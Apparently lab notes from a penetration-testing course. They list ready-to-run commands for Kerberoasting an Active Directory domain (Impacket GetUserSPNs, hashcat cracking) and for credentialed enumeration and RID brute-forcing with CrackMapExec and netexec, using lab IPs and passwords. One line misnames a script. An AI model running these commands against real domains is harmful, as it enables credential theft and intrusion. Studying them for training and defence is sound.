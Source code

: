 
# Kerberoasting - from Linux
## Prerequisite:
- Domain User Credentials (cleartext or NTLM hash)
- Shell in context of a domain user such as SYSTEM
- We must know which host in the domain is a Domain Controller so we can query it
## Listing SPN Accounts with GetUserSPNs.py
```
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
## Requesting all TGS Tickets
```
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```
## Requesting a Single TGS ticket (for user sqldev)
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
## Saving the TGS Ticket to an Output File
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
## Cracking the Ticket Offline with Hashcat
```
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```
### Testing Authentication against a Domain Controller
```
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```
# Credentialed Enumeration - from Linux
## CrackMapExec
### Domain User Enumeration
```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```
### Domain Group Enumeration
```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```
### Logged On Users
```
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```
### Share Searching
```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```
try a RID cycling attack, by bruteforcing Windows user security identifiers (SIDs) by incrementing the relative identifier (RID) part. The Impacket script loopupside.py will do this nicely:
```
netexec smb 10.10.11.236 -u guest -p '' --rid-brute
```
